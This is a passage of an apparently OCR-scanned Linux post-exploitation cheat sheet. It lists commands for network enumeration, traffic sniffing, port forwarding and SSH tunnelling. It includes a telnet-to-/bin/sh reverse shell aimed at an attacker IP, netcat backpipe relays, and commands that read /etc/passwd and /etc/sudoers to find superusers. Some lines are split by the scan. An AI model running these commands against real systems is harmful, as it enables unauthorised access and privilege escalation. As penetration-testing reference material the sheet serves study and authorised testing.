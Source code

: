 Whats cached? IP and/or MAC addresses
arp -e
route
/sbin/route -nee

Is packet sniffing possible? What can be seen? Listen to live traffic
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21

Have you got a shell? Can you interact with the system?
nc -lvp 4444 # Attacker. Input (Commands)
nc -lvp 4445 # Attacker. Ouput (Results)
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445
# On the targets system. Use the attackers IP!
Note: http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
Is port forwarding possible? Redirect and interact with traffic from another view
Note: http://www.boutell.com/rinetd/
Note: http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch
Note: http://downloadcenter.mcafee.com/products/tools/foundstone/fpipe2_1.zip
Note: FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]
FPipe.exe -l 80 -r 80 -s 80 192.168.1.7
Note: ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]
ssh -L 8080:127.0.0.1:80 root@192.168.1.7 # Local Port
ssh -R 8080:127.0.0.1:80 root@192.168.1.7 # Remote Port
Note: mknod backpipe p ; nc -l -p [remote port] < backpipe | nc [local IP] [local port] >backpipe
mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.5.5.151 80 >backpipe
# Port Relay
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost
80 | tee -a outflow 1>backpipe

# Proxy (Port 80 to 8080)
mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost
80 | tee -a outflow & 1>backpipe
# Proxy monitor (Port 80 to 8080)

Is tunnelling possible? Send commands locally, remotely
ssh -D 127.0.0.1:9050 -N [username]@[ip]
proxychains ifconfig

Confidential Information & Users
Who are you? Who is logged in? Who has been logged in? Who else is there? Who can
do what?
id
who
w
last
cat /etc/passwd | cut -d: -f1 # List of users
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}' # List
of super users
awk -F: '($3 == "0") {print}' /etc/passwd # List of super users
cat /etc/sudoers
sudo -l
